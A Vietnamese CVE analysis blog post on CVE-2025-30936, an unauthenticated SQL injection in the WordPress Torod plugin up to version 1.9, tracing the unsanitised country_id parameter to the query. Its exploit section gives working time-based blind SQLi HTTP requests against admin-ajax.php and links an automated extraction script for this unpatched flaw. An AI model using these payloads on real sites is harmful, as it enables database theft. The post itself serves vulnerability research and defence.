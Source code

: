 ```yaml
---
title: CVE-2025-30936 
description: Security Vulnerability in WordPress Torod Plugin.
date: 2025-09-10 00:01:00 +0700
categories: [Vulnerabilities, CVE Analyst]
tags: [analyst, plugin, sqli]
---
```


---

## Introduction
Lỗ hổng xảy ra trên plugin **Torod** của WordPress. Điều này có thể cho phép kẻ tấn công trực tiếp tương tác với cơ sở dữ liệu của bạn, bao gồm không giới hạn ở việc đánh cắp thông tin.
- **CVE ID**: [CVE-2025-30936](https://www.cve.org/CVERecord?id=CVE-2025-30936)
- **Product**: [WordPress Torod Plugin](https://wordpress.org/plugins/torod/)
- **Vulnerability Type**: SQL Injection  
- **Affected Versions**: <= 1.9 
- **Fixed in**: <= N/A 
- **CVSS severity**:  High (9.3) 
- **Required Privilege**: Unauthenticated

---

## Requirements
- [**Local WordPress and Debugging**](https://w41bu1.github.io/posts/wordpress-local-and-debugging/)
- **Torod**: v1.9

---

## Analysis
Nguyên nhân cố lõi do ứng dụng chèn trực tiếp dữ liệu từ **POST** request vào SQL query mà không có cơ chế quản kiểm soát chặt chẽ.

### Vulnerable Sink
CVE này không có bản vá nên không thể sử dụng **diff tool** để so sánh sự khác biệt giữa **code lỗi** và **code đã fix lỗi**.

> Trong WordPress, để SQLi xảy ra, ứng dụng phải tương tác với database thông qua biến global `$wpdb`, ta search từ khóa này trong thư mục của plugin để tìm sink. 
{: .prompt-tip }

![Search sink](assets/img/posts/2025-09-10-CVE-2025-30936/search_sink.png)

👉 Dữ liệu từ `$_POST['country_id']` được đưa thẳng vào truy vấn SQL mà không có cơ chế kiểm soát hợp lệ. Việc chỉ sử dụng `sanitize_text_field()` mới dừng lại ở mức **escape chuỗi**, chứ không đảm bảo tính an toàn. Do đó, lỗ hổng SQLi có thể xảy ra.

- Source: `$_POST['country_id']`
- Sink: `$wpdb->get_results("SELECT * FROM $table_name WHERE country_id = $country_id")`

### How it work?
Lỗ hổng nằm trong hàm `get_regions_and_cities` của class `ajaxyk` thuộc file **inc/ajaxyk.php**. Để xác định nơi nó được gọi, ta tìm kiếm với từ khóa `get_regions_and_cities` trong thư mục chứa plugin.

![Search 1](assets/img/posts/2025-09-10-CVE-2025-30936/search_1.png)

👉 `get_regions_and_cities` được construct của class `ajaxyk` gọi làm callback của 2 action hook thông qua hàm `add_action`

- `wp_ajax_get_regions_and_cities`
    - Được viết theo cú pháp `wp_ajax_{$action}`
    - Yêu cầu người dùng đăng nhập

- `wp_ajax_nopriv_get_regions_and_cities` 
    - Được viết theo cú pháp `wp_ajax_nopriv_{$action}`
    - Không yêu cầu người dùng đăng nhập

Vì đây là lỗ hổng **unauthenticated** nên ta chỉ quan tâm tới hook `wp_ajax_nopriv_get_regions_and_cities`.

Như vậy khi gửi **POST** request đến `/wp-admin/admin-ajax.php` với tham số

```
action=wp_ajax_nopriv_get_regions_and_cities&country_id=payload_here:
```

- Callback `get_regions_and_cities` được gọi.
- `country_id` được lấy trực tiếp từ request và chèn vào SQL query.
- Query thực thi với payload độc hại.

---

## Exploit
### Detect SQLi

Gửi **POST request** chứa payload SQLi.

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=get_regions_and_cities&country_id=(SELECT 1 FROM (SELECT SLEEP(5))a)
```

Khi đó câu query sẽ trở thành:

```sql
SELECT * FROM wp_torod_regions WHERE country_id = (SELECT 1 FROM (SELECT SLEEP(5))a)
```

![Responsed time](assets/img/posts/2025-09-10-CVE-2025-30936/time_resp.png)

👉 Dựa trên thời gian phản hồi => payload hoạt động.

**Các technique có thể sử dụng trong trường hợp table rỗng**:

- **UNION**: vì nó không phụ thuộc vào dữ liệu bảng của câu query trước đó, nhưng cần phải tìm được số cột tương ứng.
- **Subquery**:
    - **Subquery trong mệnh đề WHERE**: MySQL có thể tối ưu hóa và bỏ qua subquery nếu kết quả có thể xác định sớm. Nếu bảng không có dữ liệu, kết quả cuối cùng sẽ là tập rỗng, MySQL không cần thực thi `SLEEP()`.
    - **Subquery trong mệnh đề FROM**: Truy vấn con được coi là bảng tạm thời. MySQL phải thực thi truy vấn con này đầu tiên để tạo bảng tạm thời, sau đó mới thực thi truy vấn chính. 

![SQL Excution Order](https://www.kdnuggets.com/wp-content/uploads/ferrer_essential_guide_sql_execution_order_6.png)

### Get First Letter of Database Name

Điều kiện tiên quyết để **dump được hết data** là phải dump được 1 ký tự bất kỳ của tên database, nếu lấy được thì gần như toàn bộ data đều dump được.

Gửi request với **SQLi payload**:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=get_regions_and_cities=1&country_id=(SELECT 1 FROM (SELECT IF(SUBSTRING(SCHEMA(),1,1)=0x77, SLEEP(5), 1))a)
```

Sử dụng `SUBSTRING()` để lấy ký tự đầu tiên của **database name**, `IF()` trả về `SLEEP(5)` nếu ký tự đó là `0x77`('w')

Sử dụng hex encoding `w` thành `0x77` vì `country_id` được lấy từ **POST** request trong nên bị escape bởi [magic quotes](https://patchstack.com/academy/wordpress/vulnerabilities/sql-injection/#magic-quotes) trong WordPress và bởi `sanitize_text_field`.

👉 Dựa trên thời gian phản hồi => kí tự đầu tiên đúng là `w`.

Dựa trên kĩ thuật **Timebased SQLi** ta viết script để tự động khai thác.

[Script here](https://github.com/w41bu1/w41bu1.github.io/blob/main/assets/code/posts/2025-09-10-CVE-2025-30936/script.py)

---

## Conclusion
Lỗ hổng **CVE-2025-30936** trong plugin WordPress **Torod** từ phiên bản **1.9** trở lại, xuất phát từ việc truyền trực tiếp input từ người dùng vào SQL query mà không có biện pháp kiểm soát chặt chẽ dẫn đến lỗ hổng SQL Injection.

Chưa có bản vá chính thực nào cho lỗ hổng này.

**Key takeaways**:
- Kiểm soát kỹ input từ người dùng.
- Luôn sử dụng `$wpdb->prepare()` khi làm việc với database trong WordPress để tránh SQL Injection.
- Thường xuyên cập nhật plugin và kiểm tra bảo mật để tránh trở thành mục tiêu tấn công.

---

## References

[SQL Injection cheat sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[WordPress Torod Plugin <= 1.9 is vulnerable to SQL Injection](https://patchstack.com/database/wordpress/plugin/torod/vulnerability/wordpress-torod-1-9-sql-injection-vulnerability?_s_id=cve)

---